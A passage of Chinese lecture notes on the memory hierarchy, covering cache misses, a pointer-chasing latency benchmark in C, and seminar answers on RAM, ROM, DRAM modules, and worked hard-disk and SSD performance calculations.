当程序需要第 k+1 层的某个数据对象 d 时，先在第 k 层中找包含 d 的块。如果它正好在第 k 层，称为缓存命中（cache hit），直接从第 k 层读取，比从第 k+1 层读快得多（图 (b)：请求块 14，它在缓存中）。如果不在，称为缓存不命中（cache miss），第 k 层的缓存要从第 k+1 层取出包含 d 的块；如果缓存已满，还要选一个已有的块覆盖掉（图 (c)：请求块 12，从存储器取来后替换了块 9）。被覆盖的块称为牺牲块（victim）。这里有两个策略问题（课件 p.64）：放置策略（placement policy）决定新取来的块可以放在第 k 层的哪些位置；替换策略（replacement policy）决定在需要腾出位置时替换哪一块，例如随机替换，或替换最近最少使用（LRU）的块。
三类不命中#
课件 p.65 把不命中分成三类（表 9）。
第一类是冷不命中（cold miss），也叫强制性不命中（compulsory miss）。缓存刚开始是空的，第一次访问任何块都必然不命中。这类不命中是暂时的：缓存被反复访问的块填满（称为“暖身”）之后就不再发生。
第二类是冲突不命中（conflict miss）。在最快的几层，硬件不可能为了找一个块而搜索缓存的全部位置，所以放置策略通常很严格，把第 k+1 层的每个块限制在第 k 层的一个很小的位置子集里，有时只有一个位置。课件的例子是：第 k+1 层的块 i 必须放在第 k 层（共 4 个位置）的第 i mod 4 个位置。于是块 0、4、8、12 都只能放在位置 0。如果程序交替访问块 0 和块 8，即使缓存的其余 3 个位置全是空的，两块也会不断地互相覆盖，每次都不命中。缓存足够大、却因为多个对象映射到同一位置而不命中，这就是冲突不命中。
第三类是容量不命中（capacity miss）。程序在某一阶段反复访问的块的集合称为工作集（working set）。如果工作集比缓存还大，无论怎样放置都装不下，就会出现容量不命中。
表 9 三类不命中的模拟（缓存共 4 个块的位置；M = 不命中，H = 命中）
| 访问的块序列 | 直接映射（i mod 4） | 全相联 + LRU | 不命中的类型 |
|---|---|---|---|
| 0, 8, 0, 8, 0, 8 | M M M M M M | M M H H H H | 直接映射：前 2 次冷不命中，后 4 次冲突不命中；全相联只有 2 次冷不命中 |
| 0, 1, 2, 3, 4 循环 3 遍 | M M M M M M H H H M M H H H M | 全部 15 次 M | 工作集 5 块 > 缓存 4 块：除前 5 次冷不命中外都是容量不命中 |
表 9的第一行验证了课件“0、8、0、8……每次都不命中”的说法，并说明换成全相联（任何块可以放在任何位置）后冲突不命中就消失了。第二行是一个容量不命中的例子，也有一个值得注意的现象：工作集比缓存稍大、又按固定次序循环访问时，LRU 恰好每次都替换掉“下一个马上要用的块”，全相联加 LRU 反而一次也没有命中；直接映射因为块 1、2、3 各占一个固定位置，反倒有一部分命中。所以替换策略并不是“越聪明越好”，它的效果取决于访问模式。
常见问题：冲突不命中和容量不命中怎么区分？
标准的判别方法是拿同样容量的全相联缓存作对照：如果某次不命中在同容量的全相联缓存上也会发生（并且不是第一次访问），它是容量不命中；如果全相联缓存上会命中，只是因为放置限制才不命中，它是冲突不命中。12.11 节的两个例子正好各占一类：N = 1000、M = 800 时 800 个块超过了 768 个块的总容量，是容量不命中；N = 1024、M = 13 时只用了 13 个块，却挤在同一组的 12 行里，是冲突不命中。
减少冲突不命中的办法有提高相联度（每组更多行）、改变数据布局（例如把行长 1024 改为 1024 + 16，让各行错开组号）；减少容量不命中只能缩小工作集（例如第 13 讲会讲的分块技术）或使用更大的缓存。冷不命中则无法避免，只能靠预取把它的代价藏起来。
12.14 缓存无处不在（课件 p.66–67）#
“缓存”这个思想不只用于 CPU 与主存之间，它出现在计算机系统的每一个层次。课件 p.66 列出了各种例子（表 10）。
表 10 存储器层次结构中缓存的例子（课件 p.66；延迟以 CPU 时钟周期计）
| 缓存类型 | 缓存什么 | 缓存在哪里 | 延迟（周期） | 由谁管理 |
|---|---|---|---|---|
| 寄存器 | 4～8 字节的字 | CPU 核心 | 0 | 编译器 |
| TLB | 地址翻译 | 芯片上的 TLB | 0 | 硬件 MMU |
| L1 缓存 | 64 字节的块 | 芯片上的 L1 | 4 | 硬件 |
| L2 缓存 | 64 字节的块 | 芯片上的 L2 | 10 | 硬件 |
| 虚拟内存 | 4 KB 的页 | 主存 | 100 | 硬件 + 操作系统 |
| 缓冲区缓存 | 文件的一部分 | 主存 | 100 | 操作系统 |
| 磁盘缓存 | 磁盘扇区 | 磁盘控制器 | 100 000 | 磁盘固件 |
| 网络缓冲区缓存 | 文件的一部分 | 本地磁盘 | 10 000 000 | NFS 客户端 |
| 浏览器缓存 | 网页 | 本地磁盘 | 10 000 000 | Web 浏览器 |
| Web 缓存 | 网页 | 远程服务器的磁盘 | 1 000 000 000 | Web 代理服务器 |
这张表有三点值得体会。第一，被缓存的单位随层次变大：从字到 64 字节的块，到 4 KB 的页，到文件和网页。第二，管理者随层次变化：寄存器由编译器决定放什么（寄存器分配），L1、L2 完全由硬件管理、对程序透明，虚拟内存（第 19、20 讲）由硬件和操作系统合作，再往下是文件系统、网络客户端和应用程序自己。第三，延迟跨越 9 个数量级，从 0 个周期到 10 亿个周期。层次越往下，不命中的代价越大，因此越值得用复杂的软件策略（例如全相联、精心设计的替换算法）来减少不命中；最上面几层则必须用简单的硬件规则，以保证命中时足够快。
课件 p.67 用三句话总结了本讲：CPU、主存与大容量存储之间的速度差距在继续扩大；写得好的程序具有局部性；基于缓存的存储器层次结构利用局部性来弥合这个差距。
12.15 缓存什么时候不灵：特殊场景与应对（补充）#
缓存之所以有效，全靠局部性；反过来说，凡是局部性差的访问模式，缓存都帮不上忙。绝大多数程序的局部性都不错，但有几类场景是公认的“缓存杀手”，表 11 把它们和常见的应对办法列在一起。
表 11 缓存表现不佳的典型场景与应对
| 场景 | 为什么不灵 | 应对办法 |
|---|---|---|
| 随机访问大数据集（哈希表、图遍历、数据库索引） | 每次访问落在不同的块上，块里其余数据用不上；工作集远大于缓存 | 改用更紧凑的数据结构（如 B 树把一个节点做成一个或几个缓存块）；按访问顺序重排数据；批量处理，把对同一区域的访问攒到一起 |
| 指针追逐（链表、树） | 下一个地址要等这次读完才知道，硬件预取器猜不到，乱序执行也无法提前发出请求，每一步都要付全部延迟 | 用数组代替链表；把节点分配在连续内存中；软件预取（如 GCC 的 __builtin_prefetch）提前请求后面的节点 |
| 大步长访问（按列遍历、步长为 2 的幂） | 每次只用块里的一个元素；2 的幂步长还会让所有块挤进同一组，引发冲突不命中（12.11 节） | 交换循环次序；把行长从 2 的幂改成稍大的数（填充，padding）；调整数据布局，如“结构体数组”改为“数组结构体” |
| 工作集略大于缓存、循环扫描 | LRU 替换每次都踢掉马上要用的块（12.13 节的“0～4 循环”） | 分块（blocking / tiling）：把计算切成能装进缓存的小块逐块完成，第 13 讲用矩阵乘法详细讲 |
| 只用一次的流式数据（拷贝大文件、视频解码） | 没有时间局部性，读进来的块用完即弃，还把缓存里有用的数据挤了出去（缓存污染） | 非临时（non-temporal）存储指令绕过缓存直接写内存；依靠硬件预取把顺序流的延迟藏起来 |
| 多线程共享同一个缓存块（伪共享） | 两个核分别写同一块里的不同变量，块在两个核的缓存之间来回失效（多核缓存一致性，后续课程内容） | 把各线程频繁写的变量分开放在不同的 64 字节块里（对齐、填充） |
表 12 用一个小实验说明前两类场景能有多糟。程序把 N 个节点串成一个环形链表，每个节点恰好占一个 64 字节的缓存块，然后沿链表走 5000 万步，测每一步的平均时间。“顺序”是节点在内存中按地址依次相连，“随机”是把节点打乱后再串起来，两者执行的指令完全相同。实验在另一台云端虚拟机上进行（Intel Xeon 2.8 GHz，每核 L1d 32 KB、L2 1 MB，L3 33 MB 与其他虚拟机共享；gcc -O2；桌面版实验工具的本机实验“指针追逐”运行的是同一个程序，可以自己重测）。
测量部分的代码如下（main 对每种链表大小分别调用 run(n, 0) 和 run(n, 1)；now 用 clock_gettime 取时间，rnd 是一个 xorshift 随机数发生器）：
typedef struct node { struct node *next; char pad[56]; } node; /* 64 字节 */
double run(size_t n, int random) /* 返回每走一步的纳秒数 */
{
node *a = aligned_alloc(64, n * sizeof(node));
size_t *perm = malloc(n * sizeof(size_t));
for (size_t i = 0; i < n; i++)
perm[i] = i;
if (random) /* 随机：把访问顺序打乱 */
for (size_t i = n - 1; i > 0; i--) {
size_t j = rnd() % (i + 1);
size_t t = perm[i]; perm[i] = perm[j]; perm[j] = t;
}
for (size_t i = 0; i < n; i++) /* 按 perm 的顺序串成一个环 */
a[perm[i]].next = &a[perm[(i + 1) % n]];
node *p = &a[perm[0]];
for (size_t i = 0; i < n; i++) /* 预热 */
p = p->next;
long steps = 50000000;
double t0 = now();
for (long i = 0; i < steps; i++)
p = p->next; /* 下一个地址要等这次读完才知道 */
double t = now() - t0;
if (p == 0) puts(""); /* 用到 p，防止循环被优化掉 */
free(a); free(perm);
return t / steps * 1e9;
}表 12 指针追逐实验：每走一步的平均时间（ns；“大页”一列用 2 MB 页消除页表查找的影响）
| 链表总大小 | 顺序 | 随机 | 随机（2 MB 大页） | 随机 / 顺序 |
|---|---|---|---|---|
| 16 KB | 1.5 | 1.6 | 1.6 | 约 1 倍 |
| 256 KB | 2.4 | 4.4 | 5.0 | 约 2 倍 |
| 1 MB | 2.4 | 9.9 | 8.3 | 约 4 倍 |
| 8 MB | 3.2 | 146 | 126 | 约 45 倍 |
| 64 MB | 10.9 | 155 | 133 | 约 14 倍 |
| 1 GB | 12.6 | 264 | 136 | 约 21 倍 |
这张表有三点值得体会。第一，工作集能装进 L1（16 KB）时，顺序和随机一样快，每步约 1.5 ns，也就是 4 个时钟周期左右，正是 L1 的命中时间。第二，工作集超出缓存后，随机访问每一步都要从主存取数据，慢到 130～260 ns；顺序访问虽然同样每步都换一个新的缓存块，却始终只要几纳秒，原因是硬件预取器识别出了“地址每次加 64”这个规律，提前把后面的块搬进缓存，把主存的延迟藏了起来——可见“步长固定”的访问即使步长不为 1，也比随机访问好得多。第三，随机访问在 1 GB 时比 64 MB 还慢了一截，换成 2 MB 大页后这部分差距消失了：多出来的时间花在把虚拟地址翻译成物理地址上（课件 p.66 表中的 TLB 也是一种缓存，它同样会因为随机访问而不命中），这是第 19、20 讲虚拟内存的内容。另外，这台共享的云虚拟机上看不出 L3 的效果：工作集一超过 L2，随机访问就直接跳到 100 多纳秒。
总的来说，应对“缓存不灵”有三条思路。一是改程序，让局部性变好：调整循环次序、分块、改数据布局，这是最根本也最有效的办法，第 13 讲和第 14 讲（程序优化）会继续展开。二是把延迟藏起来：硬件预取、软件预取、乱序执行和多线程（一个线程等数据时另一个线程接着算），它们不减少不命中的次数，但让 CPU 不必干等。三是改进缓存本身：更高的相联度减少冲突不命中，更聪明的替换策略（现代处理器已不用纯 LRU，而用能识别“只用一次”数据的自适应策略）减少扫描造成的缓存污染，更大的末级缓存、甚至封装在 CPU 旁边的高带宽内存（HBM），都是在硬件上把层次结构做得更适合实际的访问模式。
12.16 本讲小结#
表 13 第 12 讲小结
| 主题 | 要点 |
|---|---|
| 总线事务 | 读：地址上总线 → 主存取字放上总线 → CPU 读入寄存器；写：地址上总线 → 数据上总线 → 主存写入；先地址、后数据 |
| SRAM 与 DRAM | SRAM：6 管双稳态、不需刷新、快 10 倍、贵 100 倍，做缓存；DRAM：1 管 1 电容、要刷新、要 EDC，做主存 |
| DRAM 读出 | 超单元排成 r × c；RAS 送行地址把整行复制到行缓冲区，CAS 送列地址选出超单元；省引脚但多一步 |
| 内存模块 | 8 片 ×8 芯片并行，地址广播到每片，各出 1 字节拼成 64 位字 |
| 增强型 DRAM | SDRAM：同步时钟、行地址重用；DDR：双沿传输，预取 2/4/8 位（DDR/DDR2/DDR3） |
| 非易失性存储器 | ROM、PROM（一次编程）、EPROM（紫外线擦除）、EEPROM（电擦除）、闪存（按块擦除），用于固件和 SSD |
| 磁盘容量 | 字节/扇区 × 扇区/磁道 × 磁道/盘面 × 盘面/盘片 × 盘片数；记录区让外圈磁道有更多扇区 |
| 磁盘访问时间 | 寻道 + 平均旋转延迟（半圈）+ 传送；前两项主导，首字节最贵；比 SRAM 慢约 4 万倍、比 DRAM 慢约 2500 倍 |
| 读磁盘扇区 | CPU 写命令、逻辑块号、目的地址 → 磁盘控制器 DMA 写主存 → 完成后中断 CPU |
| SSD | 闪存翻译层；按页读写、按块擦除；随机写慢（写放大）；磨损均衡；无机械部件 |
| 趋势 | 容量、价格进步远快于速度；CPU 与存储器差距扩大；2003 年后靠多核 |
| 局部性 | 时间局部性（重复用）、空间局部性（用邻近的）；步长 1 最好；循环次序与下标次序一致 |
| 层次结构 | 每层是下一层的缓存；成本接近底层、速度接近顶层 |
| 缓存操作 | 块为传送单位；命中、不命中；放置策略、替换策略、牺牲块 |
| 三类不命中 | 冷（空缓存）、冲突（映射到同一位置）、容量（工作集大于缓存） |
| 缓存不灵的场景 | 随机访问、指针追逐、大步长、流式数据、伪共享；应对：改局部性、藏延迟（预取）、改进缓存 |
下一讲（第 13 讲）讲高速缓存存储器本身：直接映射、组相联、全相联三种组织方式，地址怎样划分成标记、组索引和块偏移，写策略，以及怎样根据缓存的参数写出对缓存友好的代码（包括矩阵乘法的循环次序和分块）。本讲的局部性、块、命中与三类不命中是理解这些内容的基础。
第二部分 小班研讨题解答（第 12 讲）#
研讨题中引用的课件页码，2025 版与 2026 版完全相同（见前言的说明），下面的“课件 p.x”可以直接对照题目。第一部分已经完整讲过的图、表和推导，这里只给结论并注明所在小节；题目要求“选取当前主流产品”的部分，讲义选定三款具体产品——希捷 Exos X24 24 TB 机械硬盘、三星 990 PRO 2 TB 固态盘、AMD Ryzen 7 9700X 台式机处理器——给出依据厂商公开规格的计算。要求“找实物照片”的部分，讲义写出每类器件在照片上的识别要点，便于在网上检索、核对。
研讨题 1：不同功能特性的存储器#
1（1）基于课件第 3～9 页的结构图，讲解读内存和写内存的指令，重点在于地址和数据在 CPU、总线和内存之间的流转。
结构见 12.1 节图 1：CPU 芯片内的总线接口经系统总线连到 I/O 桥，I/O 桥经存储器总线连到主存。
读内存对应加载指令 movq A, %rax（课件 p.4–6，图 2 (a)）。第一步，CPU 把地址 A 放到系统总线上，I/O 桥把它转到存储器总线；此时流动的是地址，方向是 CPU → 主存。第二步，主存从存储器总线读到地址 A，取出该地址处的 8 字节字 x，放回存储器总线；此时流动的是数据，方向是主存 → CPU。第三步，I/O 桥把 x 转到系统总线，总线接口读入 x，复制到寄存器 %rax。
写内存对应存储指令 movq %rax, A（课件 p.7–9，图 2 (b)）。第一步，CPU 把地址 A 放上总线，主存读到地址后等待数据到来；第二步，CPU 把 %rax 中的字 y 放上总线；第三步，主存从总线读出 y，存入地址 A。地址和数据都是 CPU → 主存的方向。
两相对照：读和写都是“先地址、后数据”，地址总是由 CPU 发出；区别只在数据的流向。读事务中 CPU 在第三步之前什么都拿不到，所以加载指令的延迟直接取决于这次总线事务的长短；写事务则可以由 CPU 把地址、数据交出去后不必等待结果（现代处理器用写缓冲区进一步把写操作与后续指令重叠）。每一步都要经过 CPU 之外的部件、占用若干个总线周期，这就是访问主存远比访问寄存器慢的根本原因，也是本讲引入缓存的出发点。
1（2）辨析 RAM、SRAM、DRAM、SDRAM、DDRx SDRAM 这些名称概念之间的联系和差异，在网上找出每个类别的实物照片展示。
这五个名称是逐级细分的关系，可以画成一棵树：RAM 是总称，指可以按任意地址以大致相同的时间读写的易失性存储器；按存储单元的原理分成 SRAM（双稳态电路，6 管）和 DRAM（1 管 1 电容）两类（12.2 节）；DRAM 按接口方式又分为早期的异步 DRAM 和 SDRAM（同步 DRAM，用与内存控制器共用的时钟驱动，可以重用行地址）；SDRAM 再进一步发展为 DDR SDRAM（时钟上升沿、下降沿各传一次），并按预取宽度和电压等演化出 DDR、DDR2、DDR3、DDR4、DDR5 各代，统称 DDRx（12.4 节）。所以“DDR4 内存”既是 SDRAM，也是 DRAM，也是 RAM，但不是 SRAM。今天人们口语中说的“内存条”几乎都是 DDR4 或 DDR5 SDRAM 模块。
表 14 列出各类在照片上的识别要点。
表 14 各类 RAM 实物的识别要点
| 类别 | 常见实物 | 照片上的识别要点 |
|---|---|---|
| SRAM | 处理器芯片内部的 L1/L2/L3 缓存；独立的 SRAM 芯片（工业、通信设备上的小容量异步 SRAM） | 处理器的“晶片照片”（die shot）上，缓存是成片规则排列的方块阵列，常占晶片面积的三分之一以上；独立芯片多为 TSOP 或 BGA 封装，容量只有几 Mb 到几十 Mb |
| DRAM | 内存条、显卡和手机主板上的黑色存储芯片 | 一颗颗相同的矩形 BGA 封装芯片，表面印有厂商（三星、SK 海力士、美光等）的型号；单颗容量 8～32 Gb |
| SDRAM（单倍速） | 1990 年代末的 PC100/PC133 内存条 | 168 针 DIMM，金手指上有两个缺口；芯片多为 TSOP 封装（两侧伸出引脚） |
| DDR / DDR2 / DDR3 | 2000—2015 年左右的内存条 | 只有一个缺口；DDR 为 184 针，DDR2、DDR3 都是 240 针但缺口位置不同，不能互插 |
| DDR4 | 2015 年以后的主流内存条 | 288 针，金手指中段略呈弧形；标签上常印有“1Rx8”“2Rx8”等字样 |
| DDR5 | 当前主流台式机内存条 | 也是 288 针，但缺口位置与 DDR4 不同；条上多了一颗电源管理芯片（PMIC），供电从主板移到了内存条上 |
（笔记本电脑使用更短的 SO-DIMM，DDR4 为 260 针、DDR5 为 262 针，判断代数的方法相同：看缺口位置和标签。）
1（3）基于课件第 13 页及前后相关内容，比较 SRAM 和 DRAM 的优缺点。
比较表见 12.2 节表 2。归纳成优缺点：SRAM 的优点是快（访问时间约为 DRAM 的 1/10）、不需要刷新、读出不破坏数据、对干扰不敏感；缺点是每位要 6 个晶体管，面积大、集成度低、每位价格约为 DRAM 的 100 倍，静态功耗也较高。DRAM 的优点是每位只需 1 个晶体管加 1 个电容，集成度高、容量大、每位便宜；缺点是慢，需要每隔几十毫秒刷新一次（刷新期间不能访问，还消耗功率），读出会破坏电容上的电荷、读后要重写，对宇宙射线等干扰更敏感，需要错误检测与纠正。
这些差异直接决定了它们在存储器层次结构中的位置（12.12 节）：SRAM 又快又贵，只能做得很小，所以用作 CPU 芯片上的 L1、L2、L3 缓存；DRAM 便宜量大但慢，所以用作主存和显存。两者在工艺上也都接近极限（课件 p.13 的 Trends）：SRAM 受制于晶体管不能再缩小，DRAM 受制于电容必须保有最小电荷量。
1（4）拓展研讨：基于课件第 15 页，简要介绍不同类型 ROM 的特点、功能、用途，在网上找出每个类型的实物照片展示。
各类的写入擦除方式、寿命和用途见 12.5 节表 3。共同点是非易失：断电后数据不丢失，所以用来存放开机时第一段要执行的程序（BIOS/UEFI 固件）、各种设备内部的固件，以及大量需要长期保存的数据（闪存、SSD）。几类之间的主线是“越来越容易改写”：ROM 出厂即固定；PROM 能写一次；EPROM 能整片擦除后重写，但要把芯片取下来用紫外线照射；EEPROM 能在电路板上用电信号逐字节改写；闪存以块为单位擦除，换来了高密度和低价格，成为今天的主流。
表 15 各类 ROM 实物的识别要点
| 类型 | 常见实物 | 照片上的识别要点 |
|---|---|---|
| 掩模 ROM | 早期游戏卡带（如红白机卡带）、老式家电、计算器中的程序芯片 | 卡带电路板上的黑色芯片，有的直接用一滴黑胶（COB）封在板上，没有任何窗口或标签 |
| PROM | 1970—1980 年代电路板上的双极型小容量芯片 | 双列直插（DIP）封装，型号如 82S 系列；外观与普通逻辑芯片无异 |
| EPROM | 27 系列芯片（如 27C256、27C512），老电脑主板上的 BIOS 芯片 | 陶瓷封装正中有一个圆形石英窗口，能看到里面的晶片；编程后窗口上通常贴着标签，防止日光中的紫外线把数据慢慢擦掉 |
| EEPROM | 24 系列 I2C 芯片（如 24C02），内存条上存放参数的 SPD 芯片 | 8 个引脚的小芯片；内存条上那颗最小的芯片通常就是 SPD EEPROM，存着容量、时序等参数 |
| 闪存（NOR） | 主板上的 BIOS/UEFI 芯片（25 系列 SPI 闪存） | 主板上 8 个引脚的 SOIC 芯片，常在 CMOS 电池附近，型号以 25 开头（如 W25Q128） |
| 闪存（NAND） | U 盘、SD 卡、SSD、手机存储 | SSD 电路板上除主控芯片和 DRAM 缓存外的几颗大芯片；新式 3D NAND 单颗可达 1 Tb 以上 |
1（5）基于课件第 16～18 页，讲解从单个 DRAM 中读出一个数据的过程。然后基于课件第 19 页，找出这个样式的内存条的实物照片（一个内存条上面有 8 颗内存芯片，每颗有 8 条数据线），结合实物照片讲解一个 64 位数据的存取方式。
单个 DRAM 的读出过程见 12.3 节图 4：以 16 × 8 的芯片为例，16 个 8 位的超单元排成 4 × 4。读超单元 (2,1) 时，内存控制器先在 2 根地址引脚上送行地址 2（RAS），芯片把第 2 行的 4 个超单元整行复制到内部行缓冲区；再在同样的 2 根引脚上送列地址 1（CAS），芯片从行缓冲区中选出 (2,1)，把 8 位数据送上 8 根数据引脚，由内存控制器传回 CPU。之所以分两次送地址，是为了把地址引脚数减半，代价是多了一步（12.3 节的常见问题）。
这种结构在实物上也找得到。课件 p.19 的样式是“8 颗 ×8 芯片组成的单面内存条”，在内存条的标签上表示为 1Rx8：1R 表示一个 rank（一组共同提供 64 位数据的芯片），x8 表示每颗芯片有 8 根数据线。在网上检索“8GB DDR4 1Rx8”或“16GB DDR5 1Rx8”即可找到这种内存条的照片：一面整齐排着 8 颗相同的 BGA 芯片，另一面没有芯片。以 8 GB DDR4 1Rx8 为例，每颗芯片容量 8 Gb、组织为 1G × 8，8 颗合计 8 × 8 Gb = 64 Gb = 8 GB，和课件 8 × 8M × 8 = 64 MB 的结构完全相同，只是每颗芯片的超单元数从 8M 涨到了 1G。（带 ECC 的服务器内存条则有 9 颗 ×8 芯片，多出来的那颗存放 8 位校验码，总位宽 72 位。）
再看 64 位数据是怎样存取的（图 5）：CPU 要读主存地址 A 处的 8 字节字时，内存控制器把 A 转换成超单元地址 (i, j)，经过内存条的金手指同时广播给 8 颗芯片（地址和控制信号是所有芯片共用的总线）；每颗芯片各自按上面的 RAS、CAS 过程取出自己的超单元 (i, j)，从自己的 8 根数据线送出 8 位。8 颗芯片的 8 组数据线并排连到金手指上，正好构成 64 位数据通路：DRAM 0 的 8 位是第 0～7 位（地址 A 处的字节），DRAM 1 是第 8～15 位，……，DRAM 7 是第 56～63 位。写 64 位数据的过程相反：内存控制器把 8 个字节分别送到 8 颗芯片的数据线上，8 颗芯片同时写入各自的超单元 (i, j)。所以照片上看似独立的 8 颗芯片，在逻辑上是“同一个地址、各管一个字节”，它们并行工作，读写一个 64 位字和读写一个字节所用的时间相同。（DDR5 把这 64 位拆成两个独立的 32 位子通道，各由 4 颗芯片组成，道理不变。）
1（6）选取一个机械硬盘的当前主流产品，参照课件第 27 页的方式及前后相关内容，讲解内部结构划分和容量计算方式。
内部结构的划分见 12.6 节图 6：盘片（platter）→ 每片上下两个盘面（surface）→ 每个盘面上的同心圆磁道（track）→ 每条磁道分成扇区（sector），扇区之间有间隙；各盘面上半径相同的磁道构成柱面（cylinder）；为了让外圈磁道也能充分利用，磁道按半径分成若干记录区（zone），同一区内各磁道扇区数相同，外区扇区多、内区扇区少。容量公式（课件 p.27）是：容量 = 每扇区字节数 × 每磁道平均扇区数 × 每盘面磁道数 × 每盘片盘面数 × 盘片数。
选取的产品是希捷 Exos X24 24 TB（企业级 3.5 英寸 CMR 硬盘）。厂商公开的规格是：容量 24 TB（硬盘厂商的 1 TB = 1012 字节），10 张盘片（每片 2.4 TB），转速 7200 RPM，最大持续传输率 285 MB/s，平均延迟 4.16 ms，扇区格式为 512e 或 4Kn（物理扇区 4096 字节，512e 是对外模拟 512 字节扇区），缓存 512 MB。厂商不公布磁道数和每磁道扇区数，但可以用课件的公式和传输率把结构“反推”出来（表 16）。
表 16 希捷 Exos X24 24 TB 的结构估算（规格来自厂商数据手册，带“≈”的为推算值）
| 量 | 计算 | 结果 |
|---|---|---|
| 盘面数 | 10 张盘片 × 2 面 | 20 个盘面（20 个读写头） |
| 每盘面容量 | 24 × 1012 字节 / 20 | 1.2 × 1012 字节 |
| 每转一圈的时间 | 60 s / 7200 | 8.33 ms |
| 最外圈磁道的字节数 | 285 MB/s × 8.33 ms（持续传输率取自最外圈） | ≈ 2.375 MB |
| 最外圈每磁道扇区数 | 2.375 MB / 4096 字节 | ≈ 580 个 4 KB 扇区 |
| 每盘面磁道数 | 1.2 × 1012 / 平均每磁道字节数（设内圈约为外圈一半，平均 ≈ 1.78 MB） | ≈ 67 万条 |
于是课件公式在这款硬盘上的形式是：容量 ≈ 4096 字节/扇区 × 每磁道平均约 435 个扇区 × 每盘面约 67 万条磁道 × 2 盘面/盘片 × 10 盘片 ≈ 24 × 1012 字节。推算值只是量级，但足以看出与课件例子（300 扇区/磁道、2 万条磁道/盘面）相比的变化：磁道密度提高了几十倍，扇区由 512 字节改为 4 KB（减少扇区间隙和校验的开销），盘片也多达 10 张（盘体内充氦气以减小阻力和振动）。还要注意两点：一是操作系统显示的容量会是约 21.8 TiB，因为操作系统按 240 字节算 1 TB（24 × 1012 / 240 ≈ 21.8）；二是格式化后可用的容量会再少一些，因为每个区要预留备用柱面。
1（7）基于课件第 28～39 页的动画演示，讲解硬盘读取数据的机械运行过程；然后选取一个机械硬盘的当前主流产品，参照课件第 40～42 页，讲解读取数据的性能指标的计算过程。
先看机械过程（12.7 节图 7）。所有读写头装在同一个传动臂上，一起沿半径方向移动，悬浮在高速旋转的盘面上方几纳米处。读一个扇区分三步：① 寻道——传动臂把读写头移到目标扇区所在的磁道上方（动画 p.32–33 中读写头从当前磁道“跳”到目标磁道）；② 旋转延迟——读写头到位后，等待目标扇区的第一个位转到读写头下（p.34–36 中扇区从远处慢慢转过来，这段时间被白白浪费）；③ 传送——扇区转过读写头，数据被读出（p.37–39）。读完后如果下一个请求在别的磁道，又要重复这三步。
再计算性能指标，仍以希捷 Exos X24 为例。按课件 p.40 的公式：平均旋转延迟 = 1/2 × 60/7200 s = 4.17 ms（厂商标注的“平均延迟 4.16 ms”就是它，只是截断的写法）；读一个 4 KB 扇区的传送时间 ≈ 8.33 ms / 580 ≈ 0.014 ms（按最外圈）。厂商没有公布平均寻道时间，按企业级 7200 RPM 硬盘的典型值取 8 ms。于是
T_access ≈ 8 ms + 4.17 ms + 0.014 ms ≈ 12.2 ms
随机读 4 KB 的能力 ≈ 1 / 12.2 ms ≈ 82 次/秒（IOPS）
顺序读的速度 = 最大持续传输率 ≈ 285 MB/s（外圈），内圈约为一半这组数字验证了课件 p.41 的全部结论：访问时间由寻道和旋转延迟主导，传送时间只占约 0.1%；首字节最贵，一旦就位，连续读一整条磁道（约 2.4 MB）也只要一圈 8.33 ms。随机读 4 KB 每秒只能做约 82 次，即约 0.33 MB/s，而顺序读是 285 MB/s，相差将近 900 倍。这就是为什么文件系统要尽量把一个文件放在连续的扇区上，数据库要把随机写攒成顺序写。
1（8）基于课件第 43～46 页，简要讲述从硬盘传输数据到内存的大致步骤。
按 12.8 节的图 9，一次磁盘读分三步完成。① CPU 发起：CPU 用几条普通的存储指令，向磁盘控制器的端口地址（内存映射 I/O）依次写入读命令、逻辑块号和数据在主存中的目的地址；然后 CPU 转去执行其他任务，不等待。② DMA 传送：磁盘控制器把逻辑块号翻译成物理位置，控制磁盘完成寻道、旋转、读出，再作为总线主控设备，自己发起总线事务，经 I/O 总线、I/O 桥把数据直接写入主存的目的地址，全程不经过 CPU。③ 中断通知：传送完成后，磁盘控制器向 CPU 发出中断；CPU 暂停当前程序，执行操作系统的中断处理程序，记下这次 I/O 已完成（例如唤醒等待这块数据的进程），然后返回。要点是：磁盘的 10 ms 量级的等待和数据的逐字搬运都不占用 CPU，CPU 只在开头写几个端口、在结尾处理一次中断。
1（9）选取一个固态盘（SSD）的当前主流产品，参照课件第 47～49 页，讲解主要的结构和性能指标，然后和前面选取的机械硬盘主流产品进行对比。
从结构上看（12.9 节图 10），SSD 由主控芯片（运行闪存翻译层 FTL）、若干颗 NAND 闪存芯片和一颗 DRAM 缓存（存放映射表）组成，对外仍表现为一串逻辑块。闪存按页读写、按块擦除，一页只有在整块擦除后才能重写；FTL 负责逻辑块到物理页的映射、垃圾回收和磨损均衡。
选取的产品是三星 990 PRO 2 TB（M.2 2280，PCIe 4.0 ×4，NVMe 协议，TLC 3D NAND）。表 17 把它的厂商规格与 Exos X24 放在一起比较。
表 17 主流 SSD 与主流机械硬盘的对比（规格来自厂商数据手册；带“≈”的为推算值）
| 指标 | 三星 990 PRO 2 TB（SSD） | 希捷 Exos X24 24 TB（HDD） | 倍数 |
|---|---|---|---|
| 接口 | PCIe 4.0 ×4，NVMe | SATA 6 Gb/s 或 SAS 12 Gb/s | — |
| 顺序读 / 顺序写 | 7450 / 6900 MB/s | 285 MB/s（最外圈） | ≈ 26 |
| 随机读 4 KB | 1 400 000 IOPS（≈ 5.7 GB/s） | ≈ 82 IOPS（≈ 0.33 MB/s） | ≈ 17 000 |
| 随机写 4 KB | 1 550 000 IOPS | 与随机读同一量级 | ≈ 19 000 |
| 单次访问延迟 | 几十微秒 | ≈ 12 ms | 数百 |
| 寿命指标 | 1200 TBW，5 年质保 | 无写入次数限制（按工作负载与年限标注） | — |
| 容量 | 2 TB | 24 TB | 1/12 |
对比可以得出四点结论，与课件 p.49 的说法一致。第一，SSD 快在随机访问：顺序读只快 26 倍，随机读却快约 17 000 倍，因为 SSD 没有寻道和旋转延迟。第二，SSD 内部仍然“顺序快、随机慢”：990 PRO 的随机 4 KB 读约 5.7 GB/s，低于顺序读的 7.45 GB/s；在低队列深度下差距还要大得多（厂商的随机 IOPS 是在很深的请求队列下测得的，此时几十个闪存芯片可以并行工作）。第三，磨损：1200 TBW 除以 2 TB 等于 600，即保证整盘可写满 600 次，与课件“每字节可写 600 次”的说法完全吻合（课件的 970 EVO Plus 250 GB 标注 150 TBW，150 TB / 250 GB 也是 600），这是 FTL 磨损均衡的结果。第四，机械硬盘仍然在容量和每字节价格上占优：单盘 24 TB，每 TB 价格明显低于 SSD，所以今天的分工是 SSD 做系统盘和热数据，大容量机械硬盘做数据中心的冷数据和备份——这本身就是存储器层次结构的又一层。
